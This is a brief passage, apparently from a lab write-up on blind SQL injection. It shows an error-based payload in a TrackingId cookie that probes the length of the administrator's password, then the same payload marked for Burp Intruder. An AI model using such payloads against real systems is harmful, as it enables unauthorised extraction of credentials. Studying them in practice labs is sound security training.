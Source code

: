 * Cookie: TrackingId=Cqduog6aHApTYY1C'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';

![alt text](image-35.png)

* ### "Intruder"
* §Cookie: TrackingId=Cqduog6aHApTYY1C'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';§ 

![alt text](image-36.png)

